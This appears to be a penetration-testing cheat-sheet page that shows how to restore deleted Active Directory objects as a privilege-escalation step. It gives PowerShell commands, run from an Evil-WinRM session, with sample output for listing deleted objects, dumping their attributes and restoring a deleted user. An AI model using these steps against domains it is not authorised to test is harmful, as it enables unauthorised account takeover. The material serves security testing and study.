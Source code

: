 ```yaml
---
title: "AD Recycle Bin"
date: 2025-7-24
tags: ["Active Directory",  "AD Recycle Bin",  "Privilege Escalation",  "Object Recovery",  "Deleted Objects",  "Restore",  "Domain Controller",  "Windows",  "PowerShell"]
---
```


### Privesc #1: Restore Deleted AD Object

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD Module

```console
Import-Module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> import-module activedirectory
```

#### 2. Query All Deleted Objects within Domain

```console
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

Deleted           : True
DistinguishedName : CN=Another User\0ADEL:ebe15df5-e265-45ec-b7fc-359877217138,CN=Deleted Objects,DC=example,DC=com
Name              : Another User
                    DEL:ebe15df5-e265-45ec-b7fc-359877217138
ObjectClass       : user
ObjectGUID        : ebe15df5-e265-45ec-b7fc-359877217138
```

#### 3. Get All Details for the Deleted Object

```console
Get-ADObject -filter { SAMAccountName -eq '<DELETED_USER>' } -includeDeletedObjects -property *
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Get-ADObject -filter { SAMAccountName -eq 'another.user' }
-includeDeletedObjects -property *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : example.com/Deleted Objects/Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
CN                              : Another User
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
---[SNIP]---
```

#### 4. Restore the Deleted Object

```console
# Rename the target account to avoid user exists error
Restore-ADObject -Identity <OBJECT_GUID> -NewName '<DELETED_USER>.2' -TargetPath 'CN=Users,DC=<EXAMPLE>,DC=<COM>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\test.user\Documents> Restore-ADObject -Identity ebe15df5-e265-45ec-b7fc-359877217138 -NewName 'Another User2' -TargetPath 'CN=Users,DC=EXAMPLE,DC=COM'
```

```console
# Or
Restore-ADObject -Identity "<DISTINGUISHED_NAME>"
```

```console
PS C:\programdata> Restore-ADObject -Identity "CN=Apple Seed\0ADEL:1c6---[SNIP]---9db,CN=Deleted Objects,DC=example,DC=com"
Restore-ADObject -Identity "CN=Apple Seed\0ADEL:1c6---[SNIP]---9db,CN=Deleted Objects,DC=example,DC=com"
```

#### 5. Check

```console
net user <DELETED_USER>
```

{{< /tabcontent >}}
